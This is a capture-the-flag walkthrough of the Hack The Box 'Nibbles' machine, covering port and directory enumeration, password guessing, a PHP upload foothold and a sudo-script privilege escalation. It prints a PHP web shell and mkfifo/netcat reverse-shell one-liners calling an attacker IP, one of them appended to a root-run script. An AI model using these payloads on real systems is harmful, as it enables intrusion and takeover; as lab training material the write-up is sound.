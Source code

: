 ```yaml
---
title: 🟢 HTB / Easy / Nibbles 
date: 2022-10-02
categories: [HackTheBox, Machines]
tags: [gobuster, cewl]
---
```


# Introduction

Let's walk through the box **Nibbles**, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

>For this writeup I will say that the IP adresses are the following:
>
> - **attack machine** is `10.10.10.1`
>
> - **target machine** is `10.10.10.2`
{: .prompt-warning }

# Enumeration

Firstly let's do some basic enumeration with nmap.
We will begin with a simple quick scan to discover common open ports and service versions:

````bash
nmap -sV --open 10.10.10.2
````

We quickly see two open ports:

````bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

Let's start another scan, a full one this time, to be sure to not miss any unusual port:

````
nmap -sV -p- 10.10.10.2
````

While the full scan is running we can check the two known open ports with the defaults nmap scripts:

````
nmap -sC -p 22,80 10.10.10.2
````

Unfortunatly the full scan and the script scan didn't finish with something useful for us. Now let's look at the web server we found.

## Web Enumeration

When we open firefox on the address there is just one message displayed: Hello world!

Checking the page source reveal an interesting comment:

````html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
````

A simple web research on **Nibbleblog** shows that it's a PHP based blog engine with a well know File Upload Vulnerability which allows an authenticated attacker to upload and execute PHP code on the server. We still don't know yey which version on Nibbleblog is running this server but it's still something good to know.

Now it's time to use gobuster to discover hidden directories:

````bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2
````

Nothing interesting with this scan. Let's try now to add the directory found in the html comment:

````bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2/nibbleblog/
==========================================================================
/.hta                 (Status: 403) [Size: 302]
/.htaccess            (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 307]
/admin                (Status: 301) [Size: 323] [--> http://10.10.10.2/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                           
/content              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                             
/languages            (Status: 301) [Size: 327] [--> http://10.10.10.2/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                               
/themes               (Status: 301) [Size: 324] [--> http://10.10.10.2/nibbleblog/themes/]  
````

Many directories found here!

After looking at each here are the interesting ones for now:

- admin/    -> Many files here
- admin.php -> login form
- content/  ->
- README/ -> confirm the vulnerable version

Can't bruteforce login -> error message to blacklist us

In /content/private we find user.xml containing the admin user and we can see some blacklisted addresses

Nothing seems to leak the password. Finding the word nibbles in many files is worth giving it a try with the admin user.

Bingo!

Not easy to guess a password like that. HackTheBox advices us to use tools such as [CeWL](https://github.com/digininja/CeWL) to create custom generated wordlist based on a website.

# Initial Foothold

Now we are logged as admin let's take time to walk the administration panel.
Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

On the configuration page of the My image plugin we can see an upload form. Here we will try to send some PHP code to the server:

Firstly let's try to print the id command by savin the below code into a test.php file and uploading it:

````php
<?php system('id'); ?>
````

Now if we cURL the good URL:

````bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
````

- now let's upload a reverse shell, inspired by payloadallthethings: <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
- setup the nc listener : nc -lvnp 9443
- add python3 -c 'import pty; pty.spawn("/bin/bash")' to upgrade the shell
- listing files shows user.txt and personal.zip

> here is the user flag !

# Privilege Escalation

- unzip the zip and see a monitor.sh
- let's move linpeas.sh to the victim machine
- python -m http.server 8000
- wget 10.10.10.1:8000/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- The nibbler user can run the monitor.sh file with root privs and us we can modify the content! So we will append a reverse shell cmd to the end of the file to get root access
- echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
- nc -lvnp 4445
- sudo monitor.sh

> Here is the root flag !
